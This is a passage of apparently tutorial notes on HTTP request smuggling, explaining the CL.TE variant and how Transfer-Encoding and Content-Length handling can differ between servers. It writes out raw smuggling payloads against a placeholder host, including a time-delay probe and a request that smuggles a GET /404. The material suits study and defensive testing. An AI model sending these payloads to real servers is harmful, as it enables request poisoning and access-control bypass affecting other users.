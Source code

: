 	b
	q=smuggling
	0
    ```

Generally, the Transfer-Encoding header should be considered first and the Content-Length ignored. But even with only the Transfer-Encoding regarded, ther can still be discrepancies:
* Some systems do not support the Transfer-Encoding header
* Some systems do not process it when it is obfuscated in some way

## CL.TE
**Front-End:    Content-Length**
**Back-End:    Transfer-Encoding**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

x
```
#### Reconnaissance
The most straight forward way is to send a request that causes a time delay, because the backend is waiting for the next chunk:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

One way to get a reaction to a successful request smuggling is to cause a 404 Error:
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x

```

